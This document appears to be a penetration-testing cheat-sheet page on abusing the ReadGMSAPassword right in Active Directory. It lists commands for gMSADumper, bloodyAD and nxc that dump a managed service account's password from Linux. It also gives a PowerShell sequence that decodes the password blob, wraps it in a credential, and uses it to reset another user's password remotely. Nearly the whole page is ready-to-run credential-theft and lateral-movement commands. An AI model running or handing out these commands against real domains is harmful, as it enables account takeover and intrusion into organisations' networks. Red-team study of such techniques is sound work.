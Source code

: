 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["Credential Dumping", "ReadGMSApassword", "Gmsadumper", "Active Driectory", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 active >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 gMSADumper.py -u <USER> -p '<PASSWORD>' -l <DC> -d <DOMAIN>
```

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> get object <TARGET_OBJECT> --attr msDS-ManagedPassword
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
nxc ldap -u <USER> -p '<PASSWORD>' -d <DOMAIN> <TARGET> --gmsa
```

{{< /tabcontent >}}

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
$gmsa = Get-ADServiceAccount -Identity <TARGET_NAME> -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential <TARGET_NAME>, $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity <ANOTHER_TARGET_NAME> -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<PASSWORD>' -force)} -Credential $cred
```

{{< /tabcontent >}}

